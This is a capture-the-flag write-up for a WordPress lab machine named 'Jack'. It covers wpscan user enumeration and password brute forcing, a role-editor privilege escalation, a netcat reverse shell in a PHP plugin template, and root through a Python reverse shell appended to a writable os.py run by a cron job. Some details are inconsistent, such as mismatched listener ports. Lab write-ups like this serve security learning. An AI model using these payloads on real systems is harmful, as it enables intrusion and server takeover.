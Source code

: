 # recon
let start with and `jack.thm` to our `/etc/hosts` by runing `echo '$IP jack.tml' >> /etc/hosts`. now nmap !!

2 open ports:
- 22:ssh
- 80:http
then I gobuster for directory brute forcing using dirbuster big.txt. After I executed gobuster, I visit the web site and try to enumerate it in happy path way while gobuster is running.

I always start clicking around try to find use full info. At this point you should we have 1 username which is `jack` who posting stuff on his block. Thereafter I check `robots.txt`, why? why not lol. Always check for it, 
```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```
Muahahaha now we know that the blog is run by wordpress. there is a powerful tool call wpscan, read more about it [here](https://wpscan.org/).


The Idea is we will use wpscan to enumerate username and the we can brute force the password using wordlist on our kali. to enumerate username, run:
```console
bibo318@parrot:~$ wpscan --url http://jack.thm --enumerate u
i] User(s) Identified:

[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

so we got 3 username...
- jack
- wendy
- danny
now let brute force to get password. we will not use *rockyou.txt* coz it is to huge. Note that we have 3 users which mean the time to crack the password will take triple longer coz each password will be send 3 times. 1 time to each user. so there is around 1m password in *rockyou.txt* -> 3m password to test. RIP then. 

The plan is we will use `/usr/share/wordlists/fasttrack.txt` instead and let hope that this works. otherwise we have 3m+ password to go thru.
```console
$ wpscan --url http://jack.thm --passwords /usr/share/wordlists/fasttrack.txt --usernames jack,wendy,danny
.
.
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - wendy / ch________                                                                        
Trying danny / starwars Time: 00:01:57 <===========================> (646 / 646) 100.00% Time: 00:01:57
.
```

BINGO ! we got the password, now visit /wp-admin/ and log into wordpress admin page. and let enumerate it a bit:

note that wendy are only a normalt user. After diging for some exloit, I found this 
[WordPress Plugin User Role Editor < 4.25 - Privilege Escalation](https://www.exploit-db.com/exploits/44595). try to understand it pls

now launch burp suite, go to profile and try to update ur proflie. capture the post request and add `$ure_other_roles=administrator` this will allow to escalate to admin user.


now wendy should have admin role. Note that there are plug in on the site. The plan is we will use plug in to spawn a reverse shell on the server.


# foot hold
select on of the plug in template that you want and add reverse shell in the php template:
```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash 2>&1|nc <kali ip> 6969 >/tmp/f") ?>
```
back to kali, execute netcat and wait for connection. now go back to the main plug in page an activate the plug in that you edited. you should get a reverse shell right aways


let spawn tty sheöö
```conole
python -c 'import pty; pty.spawn("/bin/sh")'
ls
reminder.txt  user.txt
$ cat user.txt
cat user.txt
$ cat reminder.txt
cat reminder.txt

Please read the memo on linux file permissions, last time your backups almost got us hacked! Jack will hear about this when he gets back.
```
seem like there is a clue here, let go check `/var/backups`
```console
$ cd /var/backups
cd /var/backups
$ ls -la
ls -la
total 776
drwxr-xr-x  2 root root     4096 Jan 10  2020 .
drwxr-xr-x 14 root root     4096 Jan  9  2020 ..
-rw-r--r--  1 root root    40960 Jan  9  2020 alternatives.tar.0
-rw-r--r--  1 root root     9931 Jan  9  2020 apt.extended_states.0
-rw-r--r--  1 root root      713 Jan  8  2020 apt.extended_states.1.gz
-rw-r--r--  1 root root       11 Jan  8  2020 dpkg.arch.0
-rw-r--r--  1 root root       43 Jan  8  2020 dpkg.arch.1.gz
-rw-r--r--  1 root root      437 Jan  8  2020 dpkg.diversions.0
-rw-r--r--  1 root root      202 Jan  8  2020 dpkg.diversions.1.gz
-rw-r--r--  1 root root      207 Jan  9  2020 dpkg.statoverride.0
-rw-r--r--  1 root root      129 Jan  8  2020 dpkg.statoverride.1.gz
-rw-r--r--  1 root root   552673 Jan  9  2020 dpkg.status.0
-rw-r--r--  1 root root   129487 Jan  8  2020 dpkg.status.1.gz
-rw-------  1 root root      802 Jan  9  2020 group.bak
-rw-------  1 root shadow    672 Jan  9  2020 gshadow.bak
-rwxrwxrwx  1 root root     1675 Jan 10  2020 id_rsa
-rw-------  1 root root     1626 Jan  9  2020 passwd.bak
-rw-------  1 root shadow    969 Jan  9  2020 shadow.bak
```
Bingo there is a id_rsa key here, I assume that is jack ssh key. let grap it and ssh to the victim server! and start enumerate more


# root
```console
jack@jack$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
```
something worth notice here is jack is a member of family groub.


We will use a tool call `pspy` which allow us to see commands run by other users, cron jobs, etc. as they execute. for more info check this repo [pspy](https://github.com/DominicBreuker/pspy). if you dont have it, clone it and save it in a good place. You will need this script again in the future.


tranfer `pspy` to the victim server, execute it and wait.  here is what you should se
```
2020/08/06 18:18:01 CMD: UID=0    PID=2054   | /usr/bin/python /opt/statuscheck/checker.py 
2020/08/06 18:18:01 CMD: UID=0    PID=2053   | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py
```
after a while you will see that the server execute `/opt/statuscheck/checker.py` again and again. we can hijact the `checker.py` and use it to spawn our shell. But said ly we dont have premission to edit it. but let see what `checker.py` does
```console
jack@jack:~$ cat /opt/statuscheck/checker.py 
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```
okey as you can see here, it `import os` which is using a libary/module call os. we can can try to hijact the module instead ! let check if we have premission to edit it.
```console
jack@jack:~$ find / -name os.py 2> /dev/null
/usr/lib/python3.5/os.py
/usr/lib/python2.7/os.py
```
since `checker.py` is execute with python2.7, we are only intressed on `/usr/lib/python2.7/os.py`
```console
jack@jack:~$ ls -la /usr/lib/python2.7/os.py
-rw-rw-r-x 1 root family 25908 Jan 10  2020 /usr/lib/python2.7/os.py
```
BING GO! as we discussed, Jack is a member of family group and we have premission to read/write `os.py` now let as our reverse shell to the end of `os.py`

```py
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("kali ip",9008))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
now on ur kali
```console
bibo318@parrot:~/script$ nc -nlvp 9696
listening on [any] 9696 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.93.28] 40908
root@jack:~# ls
ls
root.txt
root@jack:~# cat root.txt
cat root.txt
````
